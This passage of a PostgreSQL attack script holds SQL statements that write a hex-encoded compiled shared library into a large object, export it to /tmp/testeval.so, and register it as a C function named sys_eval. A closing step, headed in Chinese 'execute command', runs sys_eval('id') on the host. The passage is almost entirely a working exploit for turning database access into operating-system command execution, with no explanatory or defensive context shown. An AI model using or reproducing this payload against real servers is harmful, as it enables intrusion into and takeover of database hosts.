388307440e600315010e38410e30410e28420e20420e18420e10420e080000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000', 'hex'));
insert into pg_largeobject values (9023, 3, decode('00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000b00d000000000000700d0000000000000000000000000000101e20000000000001000000000000007c010000000000000c00000000000000580b0000000000000d000000000000006c110000000000001900000000000000f81d2000000000001b0000000000000008000000000000001a00000000000000001e2000000000001c000000000000000800000000000000f5feff6f00000000f00100000000000005000000000000005006000000000000060000000000000060020000000000000a00000000000000aa010000000000000b00000000000000180000000000000003000000000000000020200000000000020000000000000028020000000000001400000000000000070000000000000017000000000000003009000000000000070000000000000070080000000000000800000000000000c00000000000000009000000000000001800000000000000feffff6f000000005008000000000000ffffff6f000000000100000000000000f0ffff6f00000000fa07000000000000f9ffff6f000000000300000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000', 'hex'));
insert into pg_largeobject values (9023, 4, decode('181e20000000000000000000000000000000000000000000960b000000000000a60b000000000000b60b000000000000c60b000000000000d60b000000000000e60b000000000000f60b000000000000060c000000000000160c000000000000260c000000000000360c000000000000460c000000000000560c000000000000660c000000000000760c000000000000860c000000000000960c000000000000a60c000000000000b60c000000000000c60c000000000000d60c000000000000e60c000000000000f60c0000000000004743433a2028474e552920342e382e3520323031353036323320285265642048617420342e382e352d31362900002e7368737472746162002e6e6f74652e676e752e6275696c642d6964002e676e752e68617368002e64796e73796d002e64796e737472002e676e752e76657273696f6e002e676e752e76657273696f6e5f72002e72656c612e64796e002e72656c612e706c74002e696e6974002e74657874002e66696e69002e726f64617461002e65685f6672616d655f686472002e65685f6672616d65002e696e69745f6172726179002e66696e695f6172726179002e6a6372002e646174612e72656c2e726f002e64796e616d6963002e676f74002e676f742e706c74002e627373002e636f6d6d656e74000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000b000000070000000200000000000000c801000000000000c80100000000000024000000000000000000000000000000040000000000000000000000000000001e000000f6ffff6f0200000000000000f001000000000000f0010000000000006c00000000000000030000000000000008000000000000000000000000000000280000000b000000020000000000000060020000000000006002000000000000f0030000000000000400000002000000080000000000000018000000000000003000000003000000020000000000000050060000000000005006000000000000aa0100000000000000000000000000000100000000000000000000000000000038000000ffffff6f0200000000000000fa07000000000000fa07000000000000540000000000000003000000000000000200000000000000020000000000000045000000feffff6f02000000000000005008000000000000500800000000000020000000000000000400000001000000080000000000000000000000000000005400000004000000020000000000000070080000000000007008000000000000c0000000000000000300000000000000080000000000000018000000000000005e000000040000004200000000000000300900000000000030090000000000002802000000000000030000000a0000000800000000000000180000000000000068000000010000000600000000000000580b000000000000580b0000000000001a0000000000000000000000000000000400000000000000000000000000000063000000010000000600000000000000800b000000000000800b00000000000080010000000000000000000000000000100000000000000010000000000000006e000000010000000600000000000000000d000000000000000d0000000000006c04000000000000000000000000000010000000000000000000000000000000740000000100000006000000000000006c110000000000006c1100000000000009000000000000000000000000000000040000000000000000000000000000007a000000010000000200000000000000801100000000000080110000000000004c0000000000000000000000000000001000000000000000000000000000000082000000010000000200000000000000cc11000000000000cc110000000000006c00000000000000000000000000000004000000000000000000000000000000900000000100000002000000000000003812000000000000381200000000000014020000000000000000000000000000080000000000000000000000000000009a0000000e0000000300000000000000f81d200000000000f81d0000000000000800000000000000000000000000000008000000000000000000000000000000a60000000f0000000300000000000000001e200000000000001e0000000000000800000000000000000000000000000008000000000000000000000000000000b2000000010000000300000000000000081e200000000000081e0000000000000800000000000000000000000000000008000000000000000000000000000000b7000000010000000300000000000000101e200000000000101e0000000000000800000000000000000000000000000008000000000000000000000000000000c4000000060000000300000000000000181e200000000000181e000000000000c001000000000000040000000000000008000000000000001000000000000000cd000000010000000300000000000000d81f200000000000d81f0000000000002800000000000000000000000000000008000000000000000800000000000000d200000001000000030000000000000000202000000000000020000000000000d000000000000000000000000000000008000000000000000800000000000000db000000080000000300000000000000d020200000000000d0200000000000000800000000000000000000000000000001000000000000000000000000000000e00000000100000030000000000000000000000000000000', 'hex'));
insert into pg_largeobject values (9023, 5, decode('d0200000000000002d00000000000000000000000000000001000000000000000100000000000000010000000300000000000000000000000000000000000000fd20000000000000e900000000000000000000000000000001000000000000000000000000000000', 'hex'));

SELECT lo_export(9023, '/tmp/testeval.so');


执行命令：
CREATE OR REPLACE FUNCTION sys_eval(text) RETURNS text AS '/tmp/testeval.so', 'sys_eval' LANGUAGE C RETURNS NULL ON NULL INPUT IMMUTABLE;

select sys_eval('id');

drop function sys_eval;
```
